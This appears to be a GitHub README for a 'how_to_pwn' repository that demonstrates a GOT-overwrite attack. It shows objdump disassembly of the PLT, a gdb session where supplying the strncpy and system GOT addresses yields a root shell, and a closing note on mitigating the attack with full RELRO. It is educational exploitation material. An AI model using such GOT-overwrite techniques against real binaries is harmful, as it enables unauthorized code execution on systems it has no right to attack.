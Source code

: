 # how_to_pwn
Collection of pwning scripts

# How to pwn the system using GOT tables
* got_pwn.c contains code for pwning system using GOT tables.
* Run objdump -d <exec> to figure out GOT offset entries for strncpy & system.
* If pwning is successful, the script will drop you to a shell
  
# Example o/p
```
Disassembly of section .plt:

0000000000400570 <strncpy@plt-0x10>:
  400570:       ff 35 92 0a 20 00       pushq  0x200a92(%rip)        # 601008 <_GLOBAL_OFFSET_TABLE_+0x8>
  400576:       ff 25 94 0a 20 00       jmpq   *0x200a94(%rip)        # 601010 <_GLOBAL_OFFSET_TABLE_+0x10>
  40057c:       0f 1f 40 00             nopl   0x0(%rax)

0000000000400580 <strncpy@plt>:
  400580:       ff 25 92 0a 20 00       jmpq   *0x200a92(%rip)        # 601018 <_GLOBAL_OFFSET_TABLE_+0x18>
  400586:       68 00 00 00 00          pushq  $0x0
  40058b:       e9 e0 ff ff ff          jmpq   400570 <_init+0x20>

0000000000400590 <puts@plt>:
  400590:       ff 25 8a 0a 20 00       jmpq   *0x200a8a(%rip)        # 601020 <_GLOBAL_OFFSET_TABLE_+0x20>
  400596:       68 01 00 00 00          pushq  $0x1
  40059b:       e9 d0 ff ff ff          jmpq   400570 <_init+0x20>

00000000004005a0 <__stack_chk_fail@plt>:
  4005a0:       ff 25 82 0a 20 00       jmpq   *0x200a82(%rip)        # 601028 <_GLOBAL_OFFSET_TABLE_+0x28>
  4005a6:       68 02 00 00 00          pushq  $0x2
  4005ab:       e9 c0 ff ff ff          jmpq   400570 <_init+0x20>

00000000004005b0 <system@plt>:
  4005b0:       ff 25 7a 0a 20 00       jmpq   *0x200a7a(%rip)        # 601030 <_GLOBAL_OFFSET_TABLE_+0x30>
  4005b6:       68 03 00 00 00          pushq  $0x3
  4005bb:       e9 b0 ff ff ff          jmpq   400570 <_init+0x20>

ubuntu:~/got]# gdb ./main1
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.3) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./main1...done.
(gdb) r
Starting program: /root/got/main1
strcpy_plt addr :0x400580
GOT=0x600e28, &GOT=0x200895
strcpy@plt:0x600e40
Address at strcpy:0x400550
Hello!/bin/sh
Enter address of strncpy@plt
0x601018
Enter address of system@plt
0x601030
#
# ls
heapexecute.c  main  main1  main.c  Makefile  signal  signal.c	vnag  vnag2
#
```
# Mitigation
Lazy binding is enabled by default. The issue can be mitigated by marking GOT as RELRO i.e by compiling the executable with the linker flag -Wl,-z -Wl,now
